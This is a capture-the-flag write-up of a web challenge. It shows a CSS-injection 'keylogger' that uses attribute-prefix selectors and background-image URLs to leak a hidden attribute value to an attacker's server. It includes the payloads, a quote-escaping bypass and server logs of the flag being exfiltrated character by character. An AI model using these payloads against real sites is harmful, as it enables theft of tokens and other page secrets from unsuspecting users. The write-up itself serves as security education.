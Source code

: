 # Moar Horse 3
Web

## Challenge 

I copped this [really cool website](https://moar_horse_3.tjctf.org/) from online and made it customizable so you can flex your CSS skills on everyone, especially the admin.

Note: When you get the flag, wrap it in tjctf{} before submitting

Hint: The flag is alphanumeric

## Solution

#### CSS Injection

Visiting the page, we see that we can submit any CSS text. At the bottom, we can make an admin visit with our CSS.

![ss1.png](ss1.png)

![ss2.png](ss2.png)

Take a look at the page source,

	<div class="jumbotron">
	    <h1 class="lead flag" value="You're not an admin! If you were, this would be the flag.">Welcome to my awesome website!</h1>
	    <hr class="my-4">
	    <p>Enter custom CSS below to make the website look exactly how you want it to</p>
	    <form method="POST">
	        <div class="form-group">
	            <label for="custom_css_ta">Custom CSS</label>
	            <textarea class="form-control" name="custom_styles" id="custom_css_ta"
	                rows="3"></textarea>
	        </div>
	        <button type="submit" class="btn btn-primary" id="save_css">Save</button>
	    </form>
	</div>

We see an element value `"You're not an admin! If you were, this would be the flag."`.

This reminded me of a CSS keylogger I saw a few years back

Resources:

- https://css-tricks.com/css-keylogger/
- https://www.bram.us/2018/02/21/css-keylogger-and-why-you-shouldnt-worry-about-it/
- https://www.w3schools.com/CSS/css_attribute_selectors.asp

#### CSS Keylogger

How it works, in short is that a page request can be made with the following CSS

	.flag[value^='a'] {
		background-image: url('http://<my_ip_address>:8081/test');
	}

If the value of the element starts with a `a`, then it will load the page `http://<my_ip_address>:8081/test`

Do it for every alphanumeric character and we can make the admin reveal the flag.

---

When we submit, quotes get escaped.

	h1.flag[value^=&#39;a&#39;] {
	  background-image: url(&#34;http://<my_ip_address>:8081/test=helloworld&#34;);
	}

Thankfully, CSS allows it without quotes.

https://stackoverflow.com/questions/5578845/css-attribute-selectors-the-rules-on-quotes-or-none


	.flag[value^=a] {
	  background-image: url(http://<my_ip_address>:8081/test=a);
	}

And I launched a HTTP server on my IP address. And we can see the logs.

	$ python -m SimpleHTTPServer 8081
	Serving HTTP on 0.0.0.0 port 8081 ...
	192.168.1.254 - - [09/Apr/2019 18:32:02] code 404, message File not found
	192.168.1.254 - - [09/Apr/2019 18:32:02] "GET /helloworld HTTP/1.1" 404 -
	54.165.141.144 - - [09/Apr/2019 18:32:15] code 404, message File not found
	54.165.141.144 - - [09/Apr/2019 18:32:15] "GET /helloworld HTTP/1.1" 404 -
	54.165.141.144 - - [09/Apr/2019 18:32:20] code 404, message File not found
	54.165.141.144 - - [09/Apr/2019 18:32:20] "GET /helloworld HTTP/1.1" 404 -

Now using a script, it generated every combination of alphanumeric

> [generate.py](generate.py)

And repeat the process for every iteration of the flag, submitting it to the server...
 
![ss3.png](ss3.png)

Slowly exfilterate the flag

	$ python -m SimpleHTTPServer 8081
	Serving HTTP on 0.0.0.0 port 8081 ...
	192.168.1.254 - - [09/Apr/2019 18:40:48] "GET /flag0=Y HTTP/1.1" 404 -
	192.168.1.254 - - [09/Apr/2019 18:41:33] code 404, message File not found
	192.168.1.254 - - [09/Apr/2019 18:41:33] "GET /flag0=Y HTTP/1.1" 404 -
	54.165.141.144 - - [09/Apr/2019 18:41:43] code 404, message File not found
	54.165.141.144 - - [09/Apr/2019 18:41:43] "GET /flag0=l HTTP/1.1" 404 -
	54.165.141.144 - - [09/Apr/2019 18:43:37] code 404, message File not found
	54.165.141.144 - - [09/Apr/2019 18:43:37] "GET /flag1=l0 HTTP/1.1" 404 -
	54.165.141.144 - - [09/Apr/2019 18:43:55] code 404, message File not found
	54.165.141.144 - - [09/Apr/2019 18:43:55] "GET /flag1=l0 HTTP/1.1" 404 -
	54.165.141.144 - - [09/Apr/2019 18:44:29] code 404, message File not found
	54.165.141.144 - - [09/Apr/2019 18:44:29] "GET /flag1=l0 HTTP/1.1" 404 -
	54.165.141.144 - - [09/Apr/2019 18:44:54] code 404, message File not found
	54.165.141.144 - - [09/Apr/2019 18:44:54] "GET /flag2=l0l HTTP/1.1" 404 -
	54.165.141.144 - - [09/Apr/2019 18:46:07] code 404, message File not found
	54.165.141.144 - - [09/Apr/2019 18:46:07] "GET /flag3=l0l1 HTTP/1.1" 404 -
	54.165.141.144 - - [09/Apr/2019 18:52:26] code 404, message File not found
	54.165.141.144 - - [09/Apr/2019 18:52:26] "GET /flag4=l0l1n HTTP/1.1" 404 -
	54.165.141.144 - - [09/Apr/2019 18:53:35] code 404, message File not found
	54.165.141.144 - - [09/Apr/2019 18:53:35] "GET /flag5=l0l1nj HTTP/1.1" 404 -
	54.165.141.144 - - [09/Apr/2019 18:54:36] code 404, message File not found
	54.165.141.144 - - [09/Apr/2019 18:54:36] "GET /flag6=l0l1nj3 HTTP/1.1" 404 -
	54.165.141.144 - - [09/Apr/2019 18:55:39] code 404, message File not found
	54.165.141.144 - - [09/Apr/2019 18:55:39] "GET /flag7=l0l1nj3c HTTP/1.1" 404 -
	54.165.141.144 - - [09/Apr/2019 18:56:46] code 404, message File not found
	54.165.141.144 - - [09/Apr/2019 18:56:46] "GET /flag8=l0l1nj3ct HTTP/1.1" 404 -
	54.165.141.144 - - [09/Apr/2019 18:58:07] code 404, message File not found
	54.165.141.144 - - [09/Apr/2019 18:58:07] "GET /flag9=l0l1nj3ctc HTTP/1.1" 404 -
	54.165.141.144 - - [09/Apr/2019 18:59:53] code 404, message File not found
	54.165.141.144 - - [09/Apr/2019 18:59:53] "GET /flag10=l0l1nj3ctc5 HTTP/1.1" 404 -
	54.165.141.144 - - [09/Apr/2019 19:01:30] code 404, message File not found
	54.165.141.144 - - [09/Apr/2019 19:01:30] "GET /flag11=l0l1nj3ctc55 HTTP/1.1" 404 -
	54.165.141.144 - - [09/Apr/2019 19:02:49] code 404, message File not found
	54.165.141.144 - - [09/Apr/2019 19:02:49] "GET /flag_final=l0l1nj3ctc55 HTTP/1.1" 404 -

## Flag

	tjctf{l0l1nj3ctc55}
